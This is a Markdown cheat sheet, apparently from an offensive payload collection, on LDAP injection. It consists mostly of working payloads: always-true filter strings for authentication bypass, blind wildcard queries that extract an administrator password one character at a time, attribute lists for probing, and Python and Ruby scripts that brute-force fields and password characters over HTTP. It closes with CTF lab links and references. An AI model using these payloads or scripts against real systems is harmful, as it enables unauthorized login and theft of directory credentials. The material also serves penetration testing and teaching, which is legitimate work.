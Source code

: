 # LDAP Injection

> LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.


## Summary

* [Methodology](#methodology)
    * [Authentication Bypass](#authentication-bypass)
    * [Blind Exploitation](#blind-exploitation)
* [Defaults Attributes](#defaults-attributes)
* [Exploiting userPassword Attribute](#exploiting-userpassword-attribute)
* [Scripts](#scripts)
    * [Discover Valid LDAP Fields](#discover-valid-ldap-fields)
    * [Special Blind LDAP Injection](#special-blind-ldap-injection)
* [Labs](#labs)
* [References](#references)


## Methodology

LDAP Injection is a vulnerability that occurs when user-supplied input is used to construct LDAP queries without proper sanitization or escaping

### Authentication Bypass

Attempt to manipulate the filter logic by injecting always-true conditions.

**Example 1**: This LDAP query exploits logical operators in the query structure to potentially bypass authentication

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = (&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))
```

**Example 2**: This LDAP query exploits logical operators in the query structure to potentially bypass authentication

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```


### Blind Exploitation

This scenario demonstrates LDAP blind exploitation using a technique similar to binary search or character-based brute-forcing to discover sensitive information like passwords. It relies on the fact that LDAP filters respond differently to queries based on whether the conditions match or not, without directly revealing the actual password.

```sql
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

**LDAP Filter Breakdown**

* `&`: Logical AND operator, meaning all conditions inside must be true.
* `(sn=administrator)`: Matches entries where the sn (surname) attribute is administrator.
* `(password=X*)`: Matches entries where the password starts with X (case-sensitive). The asterisk (*) is a wildcard, representing any remaining characters.


## Defaults Attributes

Can be used in an injection like `*)(ATTRIBUTE_HERE=*`

```bash
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```


## Exploiting userPassword Attribute

`userPassword` attribute is not a string like the `cn` attribute for example but it’s an OCTET STRING
In LDAP, every object, type, operator etc. is referenced by an OID : octetStringOrderingMatch (OID 2.5.13.18).

> octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule that will perform a bit-by-bit comparison (in big endian ordering) of two octet string values until a difference is found. The first case in which a zero bit is found in one value but a one bit is found in another will cause the value with the zero bit to be considered less than the value with the one bit.

```bash
userPassword:2.5.13.18:=\xx (\xx is a byte)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

## Scripts

### Discover Valid LDAP Fields

```python
#!/usr/bin/python3
import requests
import string

fields = []
url = 'https://URL.com/'
f = open('dic', 'r')
world = f.read().split('\n')
f.close()

for i in world:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'}) #Like (&(login=*)(ITER_VAL=*))\x00)(password=bla))
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

### Special Blind LDAP Injection

```python
#!/usr/bin/python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

Exploitation script by [@noraj](https://github.com/noraj)

```ruby
#!/usr/bin/env ruby
require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

flag = ''
(0..50).each do |i|
  puts("[i] Looking for number #{i}")
  alphabet.each do |char|
    r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
    if /TRUE CONDITION/.match?(r)
      flag += char
      puts("[+] Flag: #{flag}")
      break
    end
  end
end
```


## Labs

* [Root Me - LDAP injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Authentication)
* [Root Me - LDAP injection - Blind](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Blind)


## References

- [[European Cyber Week] - AdmYSion - Alan Marrec (Maki)](https://www.maki.bzh/writeups/ecw2018admyssion/)
- [ECW 2018 : Write Up - AdmYSsion (WEB - 50) - 0xUKN - October 31, 2018](https://0xukn.fr/posts/writeupecw2018admyssion/)
- [How To Configure OpenLDAP and Perform Administrative LDAP Tasks - Justin Ellingwood - May 30, 2015](https://www.digitalocean.com/community/tutorials/how-to-configure-openldap-and-perform-administrative-ldap-tasks)
- [How To Manage and Use LDAP Servers with OpenLDAP Utilities - Justin Ellingwood - May 29, 2015](https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities)
- [LDAP Blind Explorer - Alonso Parada - August 12, 2011](http://code.google.com/p/ldap-blind-explorer/)
- [LDAP Injection & Blind LDAP Injection - Chema Alonso, José Parada Gimeno - October 10, 2008](https://www.blackhat.com/presentations/bh-europe-08/Alonso-Parada/Whitepaper/bh-eu-08-alonso-parada-WP.pdf)
- [LDAP Injection Prevention Cheat Sheet - OWASP - July 16, 2019](https://www.owasp.org/index.php/LDAP_injection)